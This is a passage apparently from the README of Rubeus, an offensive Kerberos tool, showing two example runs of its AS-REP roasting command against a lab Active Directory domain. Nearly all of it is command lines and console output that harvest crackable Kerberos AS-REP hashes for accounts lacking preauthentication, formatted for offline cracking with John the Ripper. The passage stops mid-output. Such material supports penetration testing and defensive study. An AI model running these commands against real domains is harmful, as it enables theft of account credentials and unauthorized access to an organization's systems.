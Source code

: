 The output format is John the Ripper ([Jumbo version](https://github.com/magnumripper/JohnTheRipper)) compatible, with Hashcat support coming soon.

    c:\Rubeus>Rubeus.exe asreproast /user:dfm.a

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: AS-REP Roasting

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 163 bytes
    [*] Received 1537 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:

          $krb5asrep$dfm.a@testlab.local:F7310EA341128...(snip)...


    C:\Rubeus>Rubeus.exe asreproast

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.3.2

    [*] Action: AS-REP roasting

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 163 bytes
    [*] Received 1537 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:

        $krb5asrep$dfm.a@testlab.local:F5432...(snip)...

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 169 bytes
    [*] Received 1437 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:
